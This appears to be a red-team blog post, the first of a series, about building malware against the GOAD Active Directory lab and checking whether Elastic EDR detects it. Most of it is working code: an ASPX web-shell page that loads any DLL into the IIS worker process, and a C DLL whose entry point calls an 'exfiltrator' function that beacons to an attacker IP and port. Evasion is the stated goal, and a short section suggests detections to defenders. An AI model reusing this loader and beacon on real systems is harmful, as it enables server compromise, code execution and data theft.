

# Introduction

Many years ago I discovered the amazing Active Directory vulnerable lab "GOAD", a lab that includes a whole AD environment with misconfigurations and small automations that allow Security Researchers and Penetration Testers to test new techniques and experiment in a controlled environment. Of course it is not meant to be secure, but it is enough to experiment and test.

I decided that, in order to test the real capabilities of modern EDRs, as well as practice my malware development skills and OpSec, it would be a great project to complete one of the compromise chains of the GOAD lab with an EDR installed while documenting the telemetry and detections generated at each stage. The compromise chain I will be following looks like this:



In this article I will be covering the first part of the graph, where I go through the development of a custom `ASPX DLL loader` that will load a DLL passed as parameter. For now, the loading will be done with the `LoadLibrary` method. If later on this development does not work, it will be changed to meet the objectives of achieving DA privileges without getting detections on Elastic.

# ASPX Loader

Let's jump right into the `ASPX` code of the loader:

## Imports and Language Definitions
```html
<%@ Page Language="C#" %>
<%@ Import Namespace="System" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.IO" %>
```
This first part of the loader tells the IIS process that this `ASPX` file should run as `C#`, which is what allows us to execute further functions like `LoadLibraryA`.

## Loading the Functions from the DLL

Next, we need to define the functions from the WinAPI that we want to call. In this case, both of them come from the `kernel32.dll` DLL file:

```html
[DllImport("kernel32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
private static extern IntPtr LoadLibrary(string lpFileName);

[DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
private static extern bool SetDllDirectory(string lpPathName);
```

In this case, we are defining the `LoadLibrary` function in ANSI mode. This is equivalent to `LoadLibraryA`, which expects an ANSI (8-bit character) string. The UTF-16 equivalent would be `LoadLibraryW`.

We are also defining the function `SetDllDirectory`, which modifies the DLL search path used by the current process and allows DLL dependencies to be resolved from additional locations.

## Loader Logic

The following code shows the logic followed to load the DLL:
```cs
protected void btnLoad_Click(object sender, EventArgs e)
    {
        string dllPath = txtDllPath.Text.Trim();
        lblOutput.Text = "";

        if (string.IsNullOrEmpty(dllPath))
        {
            return;
        }

        if (!File.Exists(dllPath))
        {
            return;
        }

        try
        {
            string directory = Path.GetDirectoryName(dllPath);
            SetDllDirectory(directory);

            IntPtr hModule = LoadLibrary(dllPath);
            
            if (hModule == IntPtr.Zero)
            {
                return;
            }
        }
        catch (BadImageFormatException)
        {
            return;
        }
        catch (Exception ex)
        {
            return;
        }
    }
```

This is a super simple loader, it just gets the DLL path passed through a text box on the Front-End and looks for it on the system. If it exists, it will set the Directory of DLLs of the process to be the given directory and it will later use `LoadLibrary` to load it onto the running process. If our DLL has code that runs directly after the DLL is loaded, then the code will be directly executed after the `LoadLibrary` function call.

## Front-End

```html
<!DOCTYPE html>
<html>
<head><title>Native DLL Loader</title></head>
<body style="font-family: monospace; padding: 20px; background: #f5f5f5;">
    <form id="form1" runat="server">
        <div style="max-width: 600px; margin: 20px auto; background: #fff; padding: 20px; border: 1px solid #ccc;">
            <h3>Native DLL Loader</h3>
            <asp:TextBox ID="txtDllPath" runat="server" Width="100%" placeholder="C:\path\to\dll.dll" /><br/><br/>
            <asp:Button ID="btnLoad" runat="server" Text="Load DLL" OnClick="btnLoad_Click" /><br/><br/>
            <hr/>
        </div>
    </form>
</body>
</html>
```

Since the frontend is not the main focus of this development, I won't dive deep on it, just note that it holds enough to get a DLL path and a button to trigger the execution.

## Final ASPX file

The following shows how the file looks like after putting it all together

```html
<%@ Page Language="C#" %>
<%@ Import Namespace="System" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.IO" %>

<script runat="server">
[DllImport("kernel32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
private static extern IntPtr LoadLibrary(string lpFileName);

[DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
private static extern bool SetDllDirectory(string lpPathName);

protected void btnLoad_Click(object sender, EventArgs e)
    {
        string dllPath = txtDllPath.Text.Trim();
        lblOutput.Text = "";

        if (string.IsNullOrEmpty(dllPath))
        {
            return;
        }

        if (!File.Exists(dllPath))
        {
            return;
        }

        try
        {
            string directory = Path.GetDirectoryName(dllPath);
            SetDllDirectory(directory);

            IntPtr hModule = LoadLibrary(dllPath);
            
            if (hModule == IntPtr.Zero)
            {
                return;
            }
        }
        catch (BadImageFormatException)
        {
            return;
        }
        catch (Exception ex)
        {
            return;
        }
    }
</script>
<!DOCTYPE html>
<html>
<head><title>Native DLL Loader</title></head>
<body style="font-family: monospace; padding: 20px; background: #f5f5f5;">
    <form id="form1" runat="server">
        <div style="max-width: 600px; margin: 20px auto; background: #fff; padding: 20px; border: 1px solid #ccc;">
            <h3>Native DLL Loader</h3>
            <asp:TextBox ID="txtDllPath" runat="server" Width="100%" placeholder="C:\path\to\dll.dll" /><br/><br/>
            <asp:Button ID="btnLoad" runat="server" Text="Load DLL" OnClick="btnLoad_Click" /><br/><br/>
            <hr/>
        </div>
    </form>
</body>
</html>
```
# DLL

With the ASPX Loader created, now everything that is left to do is to have a DLL to load. For now I will just create a DLL that will make a HTTP request to a controlled server. In further parts of this series, I will be reimplementing functions as well as additional techniques to acquire all the capabilities that might be needed to reach the end goal.

Without further ado, let's dive right in

## HTTP Request

The first step is to create a function that will make the HTTP requests. This will allow our loaded code to communicate to our server, pretty much like a C2. I would not name this a C2 just yet, as it is really too basic, but keep in mind that if we further develop both endpoints (the "agent" and the "receiver" ends), we might have something that could resemble a real C2.

```c
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <stdlib.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#pragma comment(lib, "ws2_32.lib")

void exfiltrator(char* data, char* ip, char* port)
{
    char request[1024];
    WSADATA wsa;
    SOCKET s;
    struct sockaddr_in server = { 0 };

    _snprintf_s(request, sizeof(request), _TRUNCATE,"GET /%s HTTP/1.0\r\nHost:%s:%s\r\n\r\n", data, ip, port);

    if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0)
        return;
    s = socket(AF_INET, SOCK_STREAM, 0);
    if (s == INVALID_SOCKET)
    {
        WSACleanup();
        return;
    }

    
    server.sin_family = AF_INET;
    server.sin_port = htons((unsigned short)atoi(port));
    inet_pton(AF_INET, ip, &server.sin_addr);

    if (connect(s, (struct sockaddr*)&server, sizeof(server)) == SOCKET_ERROR)
    {
        closesocket(s);
        WSACleanup();
        return;
    }

    send(s, request, (int)strlen(request), 0);
    closesocket(s);
    WSACleanup();
}
```
## Main Logic

This part of the code will contain the main logic that will be triggered once the DLL gets loaded, and this is the part that we will change the most over the course of this series. For now it will look very simple, just something to check that our loader is working.

```c
#include <stdio.h>

exfiltrator(char* data, char* ip, char* port);

void TestConnection(void)
{
    exfiltrator("HelloWorld", "192.168.56.1", "4242");
}
```

Again, this is just to test that everything works. Following articles will focus specifically on the development of a DLL with much more functionality as well as evasion techniques.

## DLL Main File

A DLL must contain a `dllmain.c` file, which acts as the entry point for the DLL and defines the actions that will be performed when it is loaded. For this proof of concept, the DLL will call TestConnection during `DLL_PROCESS_ATTACH`.

```c
#include <Windows.h>
#include <stdio.h>

void TestConnection(void);

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            TestConnection();
            break;
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

# Putting it All Together

After coding everything, I compiled the DLL and uploaded everything through the Unrestricted File Upload that the server `X.X.X.22` has. After that, I executed the DLL through the ASPX loader and started an HTTP listener on my host.


# EDR Telemetry

After a successful execution, I checked the alerts generated during the timeframe in which I executed the tests:


We observe that no alert was generated. For the purposes of this experiment, this indicates that the execution path is worth investigating further.

I also looked at the telemetry generated by elastic and we do get events for the network connection as well as for the DLL load action.


## Observations

A successful execution generated telemetry for both the DLL load event and the outbound network connection. However, no detection rule was triggered during the execution of this proof of concept.

It is important to distinguish between telemetry generation and detection coverage. The presence of image load and network events indicates that Elastic observed the activity and recorded it. The result of this test is therefore not that the activity was invisible, but rather that it did not match any enabled detection logic in the tested configuration.

At this stage, the experiment only demonstrates that a DLL loaded through this ASPX-based mechanism can execute code inside the IIS worker process without generating alerts in this specific environment. Additional testing will be required to determine whether more advanced payloads, different execution paths, or future stages of the attack chain trigger detections.

For defenders, the generated telemetry suggests that custom detections could potentially be built around unusual DLL loads within IIS worker processes or unexpected outbound network connections originating from them.

# Closing

In this article we saw how we could code a simple ASPX loader for DLLs as well as a test DLL to verify that the loader works correctly. We also could see that Elastic did not generate any alert for the DLL load event or the network connection, meaning that this specific activity did not generate alerts in the tested Elastic configuration despite producing telemetry. However, this project is currently ongoing and I am developing it and writing it as I go, meaning that there can be things that will be detected by Elastic on further steps and might force us to change the plan.

On the next part I will be showing how to code a DLL that does much more than a simple `HelloWorld` request. Stay tuned!

# Further Improvements

Although this minimal development works, many things can still be changed to make it better and more reliable. Here below are some improvements that I might be applying in the future:

- Resetting the DLL path after successful execution of the DLL
- Being able to retrieve DLLs from the internet and execute them In-Memory
